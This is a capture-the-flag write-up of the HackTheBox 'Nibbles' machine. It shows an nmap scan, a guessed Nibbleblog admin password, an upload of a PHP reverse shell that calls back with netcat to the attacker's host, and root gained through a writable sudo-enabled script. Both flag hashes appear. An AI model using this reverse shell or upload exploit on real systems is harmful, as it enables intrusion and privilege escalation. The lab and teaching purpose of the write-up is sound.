# HackTheBox Nibbles Writeup

## Enumeration
The first thing I like to do when approaching one of these challenges is to enumerate the target.
We will use nmap to do this.  -A tells nmap to do a service scan so we can enumerate the services
on the target.  -Pn tells nmap not to ping the target first.

```bash
nmap -A -Pn 10.10.10.75
```

```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-29 22:36 EDT
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=6/29%OT=22%CT=1%CU=33382%PV=Y%DS=2%DC=T%G=Y%TM=5B36ECC
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=100%GCD=1%ISR=109%TI=Z%CI=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   114.11 ms 10.10.14.1
2   114.11 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.65 seconds
```

It looks like there is a web page hosted on the target.  Let's take a look at it:



This is not the most robust site in the world.  Sometimes, developers leave comments in the source code of a web page that may reveal useful information.  Let's take a look:



The comment says there is nothing interesting in the nibbleblog directory.  Let's see about that:



When I first saw the page, I started clicking links.  On some pages, I found some pages that could have been vulnerable
to SQL injection.  I tried a few things, but got nowhere.  I decided to try to find out more about nibbleblog.
Googling for nibbleblog leads us to the project's page on GitHub [1].
This allows us to take a look at the structure of the application.  The admin page is at /nibbleblog/admin.php:



I tried SQL injection on the log in, and that did not work.  On a whim, I tried to guess very simple credentials.
Since the name of the challenge is nibbles, I guessed that was either a password or user name.  After a few guesses,
I found that the admin user is ```admin``` and the password is ```nibbles```:



I poked around the admin interface a little bit to see if there was anything I could use to gain remote code execution.  I did not
find anything immediately, so I started Googling.  After a little bit, I ran across this page which describes a remote code execution
vulnerability in Nibbleblog if you have admin credentials [2].  It was worth a shot.  The vulnerability is that the image upload functionality does not check that the files you are uploading are
really images, so you could upload whatever you want.

I wrote a quick script that will spawn a reverse shell that will call me back:
```php
<?php
	system("mknod /tmp/p p");
	system("/bin/sh 0</tmp/p | nc 10.10.15.77 43043 1> /tmp/p");
?>
```
I had a netcat listener running on my machine at 10.10.15.77 on port 43043.  The port I chose is arbitrary.  You can choose whatever open port you want to on your box.

I used the following command to set the listener up:
```bash
# -v means to be verbose, -l tells netcat to listen, -p allows us to specify the port we want to use (43043).
nc -vlp 43043
```

In theory, when you upload the page and access it, it will execute this code and call back.

Let's take a a closer look at this code, which I got the idea for from here [3]:

```mknod /tmp/p p``` makes a named pipe (the p at the end of the command) in /tmp/p.  Named pipes allow for interprocess communication.  In this case, we are going
to use this pipe to allow netcat to communicate since I am not sure if the version of netcat on target (if it exists) supports the reverse shell option (-e).

I found out later that the version of netcat on target does not support -e, so it is good that we worked around it.

The second command spawns a shell and redirects standard input (stream 0) to our named pipe.  That is piped as input to netcat, and the output from netcat is
redirected to our named pipe.  Normally, it would go to the screen, but since we do not have a virtual terminal on the machine, we need to redirect it.  Stream 1 is standard output.

Let's upload our shell:


We get some warnings, but we can ignore those.  The file will be available in nibbleblog/content/private/plugins/my_image/image.php



Let's surf to the page at http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php to the page and look at our listener:



Looks like we got a connection.  Awesome!  We are not going to get a prompt, so we can start typing commands.  Let's see what user we are, and see if that user has a home directory:



What is user.txt?  Looks like the user flag.  ```b02ff32bb332deba49eeaed21152c8d8```

We are not done yet though.  We still have to get the root flag.  There is a zip file called personal.zip.  Let's see what is in it:

```bash
unzip -l personal.zip
```


We will need to extract monitor.sh to look at it further:
```bash
unzip personal.zip
head -n 50 /home/nibbler/personal/stuff/monitor.sh
```


This is a snippet, but the full script is available from tecmint.com [4].


This script does not appear to give us root by itself.  Sometimes, you can escalate privileges by leveraging a misconfiguration on the system.  One thing that may be misconfigured is permissions for the sudo command.  Sudo allows users to run commands as other users (typically root) based on rules defined in the /etc/sudoers file.  Let's see if nibbler can run any commands as sudo:
```bash
sudo -l
```


This shows us all of the commands that nibbler is able to run using sudo and if he needs a password to do it. The interesting rule in here is
```
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
This line says that nibbler can run /home/nibber/personal/stuff/monitor.sh as root without a password.  If we have control over the file, we can put whatever we want in it, and those commands would be executed as root.
Let's verify the permissions:



We have write access to monitor.sh, so let's replace it with a one-liner that will give us a shell:
```bash
echo "python3 -c 'import pty; pty.spawn(\"/bin/bash\")'" > /home/nibbler/personal/stuff/monitor.sh
```
This one line of Python imports the pty library and spawns a psuedoterminal (pty) in which we will run bash.  Psuedoterminals allow us to work in a full interactive terminal which allows us to do things like tab-completion, up arrow to get history, use certain applications that need a terminal (like ssh, vim).  This is a great site to read more if you are interested [5].  The command replaces the contents of /home/nibbler/personal/stuff/monitor.sh with our one line of Python:


Let's see if it works:
```bash
sudo /home/nibber/personal/stuff/monitor.sh
```
No errors, so that is good.  Let's verify we are root:


Now we need to look for the flag.  Usually it is somewhere in root's home directory:


Looks like we found it (root.txt):

```b6d745c0dfb6457c55591efc898ef88c```

## Conclusion
This was a fun challenge because we got to leverage multiple vulnerabilities to reach our ultimate goal.  There were multiple issues here which allowed us to be successful:
	* Comments in HTML source that revealed areas of the site that the administrator did not intend for the public to visit:  When publishing anything to a website, internally within an organization or externally to the Internet, it is important to make sure that anything you do not want others to see is left around.  This includes directory listings left open or comments that might reveal information.
	* Use of weak credentials. Easily guessed credentials are not much of a barrier for an attacker.  Use strong passwords, especially to protect administrative interfaces.
	* Keep software up to date.  This vulnerability was fixed in a newer version of Nibbleblog.
	* Be careful about how root or Administrator permissions are delegated on your systems.  It is not a good idea to allow anything that a user can modify to run with elevated privileges.

## References
[1]: https://github.com/dignajar/nibbleblog "Nibbleblog Github Page"
[2]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html
[3]: https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
[4]: https://www.tecmint.com/linux-server-health-monitoring-script/
[5]: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
